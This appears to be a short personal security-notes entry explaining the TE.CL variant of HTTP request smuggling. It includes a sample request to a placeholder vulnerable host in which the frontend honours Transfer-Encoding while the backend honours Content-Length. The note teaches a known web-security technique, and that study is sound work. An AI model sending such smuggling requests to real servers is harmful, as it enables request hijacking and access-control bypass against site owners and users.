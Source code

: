 ## Description
Same idea like [[root.hacking.smuggling.cl-te]], but the other way around. Frontend uses `Transfer-Encoding`, while backend uses `Content-Length`. Difference is exploited to leave data unprocessed during handling the attack request:
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked 

8 
SMUGGLED
0
```
The frontend uses `Transfer-Encoding`, so it will forward the entire thing and stop at 0, but backend will use the `Content-Length: 3` so anything after 8 will be ignored by the request handler.
